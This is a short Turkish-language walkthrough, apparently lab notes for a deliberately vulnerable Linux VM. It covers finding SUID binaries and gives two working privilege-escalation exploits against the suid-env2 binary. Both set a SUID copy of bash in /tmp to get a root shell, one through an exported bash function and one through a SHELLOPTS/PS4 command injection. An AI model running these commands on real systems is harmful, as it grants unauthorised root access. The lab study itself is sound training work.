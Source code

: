 # Linux VM SUID Tespiti ve İstismarı

## 1. SUID Binarilerinin Tespiti
Linux sisteminde SUID bitine sahip olan dosyaları tespit etmek için aşağıdaki komutu çalıştırın:

```bash
find / -type f -perm -04000 -ls 2>/dev/null
```

Bu komutun çıktısında yer alan SUID binarilerini not edin.

## 2. Binari İçerisinde Kullanılan Fonksiyonları İnceleme
Binarinin içerisinde hangi fonksiyonların kullanıldığını görmek için aşağıdaki komutu çalıştırın:

```bash
strings /usr/local/bin/suid-env
```

Bu komut, binari içerisinde kullanılan string ifadeleri ve olası fonksiyonları gösterecektir.

---

## İstismar Yöntemleri

### Yöntem #1: SUID ile Yetki Yükseltme
Aşağıdaki komutları sırasıyla çalıştırarak, yetki yükseltme işlemi gerçekleştirebilirsiniz:

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }
```

```bash
export -f /usr/sbin/service
```

```bash
/usr/local/bin/suid-env2
```

Bu adımlar, `/tmp` dizininde SUID bitine sahip bir bash shell oluşturacaktır. Root haklarıyla erişim sağlamak için aşağıdaki komutu kullanabilirsiniz:

```bash
/tmp/bash -p
```

---

### Yöntem #2: `env` Kullanarak Yetki Yükseltme
Alternatif olarak, aşağıdaki komutu kullanarak benzer bir yetki yükseltme işlemi gerçekleştirebilirsiniz:

```bash
env -i SHELLOPTS=xtrace PS4='$(cp /bin/bash /tmp && chown root.root /tmp/bash && chmod +s /tmp/bash)' /bin/sh -c '/usr/local/bin/suid-env2; set +x; /tmp/bash -p'
```

Bu yöntem, `env` komutunu kullanarak bir bash shell oluşturur ve root yetkileriyle çalıştırır.

---



